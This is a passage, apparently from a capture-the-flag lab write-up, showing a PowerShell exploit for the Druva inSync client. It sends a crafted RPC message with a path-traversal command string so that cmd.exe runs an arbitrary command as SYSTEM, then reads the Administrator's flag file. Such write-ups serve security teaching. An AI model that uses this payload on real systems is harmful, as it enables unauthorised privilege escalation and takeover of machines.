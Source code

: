 		$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
		$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
		$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
		$length = [System.BitConverter]::GetBytes($command.Length);

		$s.Send($header)
		$s.Send($rpcType)
		$s.Send($length)
		$s.Send($command)
		```

		![task7-script](./images/task7-script.png)

		* Run cmd.exe as PWND and get the flag
			
			`type C:\Users\Administrator\Desktop\flag.txt`

			![task7-flag](./images/task7-flag.png)
